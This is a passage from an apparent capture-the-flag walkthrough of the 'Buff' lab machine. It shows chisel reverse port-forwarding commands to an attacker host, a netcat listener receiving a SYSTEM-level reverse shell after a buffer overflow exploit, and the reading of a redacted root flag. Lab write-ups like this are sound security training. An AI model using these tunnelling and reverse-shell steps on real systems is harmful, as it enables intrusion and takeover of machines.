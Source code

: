 ```
C:\Windows\Temp>.\chisel_windows.exe client 10.10.16.3:8000 R:8888:127.0.0.1:8888
.\chisel_windows.exe client 10.10.16.3:8000 R:8888:127.0.0.1:8888
2022/02/20 15:37:32 client: Connecting to ws://10.10.16.3:8000
2022/02/20 15:37:36 client: Connected (Latency 247.8283ms)


┌──(kali㉿kali)-[~/Desktop/buff]
└─$ ./chisel_amd64 server -p 8000 --reverse                                                                    126 ⨯
2022/02/20 10:26:13 server: Reverse tunnelling enabled
2022/02/20 10:26:13 server: Fingerprint CLNrL7ACeYCdG+FvJdqy48TvaK8+CZG8hhIkrZT/1Rc=
2022/02/20 10:26:13 server: Listening on http://0.0.0.0:8000
2022/02/20 10:30:34 server: session#1: Client version (1.7.7) differs from server version (1.7.6)
2022/02/20 10:30:34 server: session#1: tun: proxy#R:8888=>8888: Listening
```

### Privilege Escalation to SYSTEM privileges
Using the buffer overflow exploit that we have found earlier and replace the payload with the msfvenom payload that we have generated earlier.

Executing the exploit script will then generate a reverse shell with SYSTEM privileges.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 5000
listening on [any] 5000 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.198] 49727
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>
```

### Obtaining root flag

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```
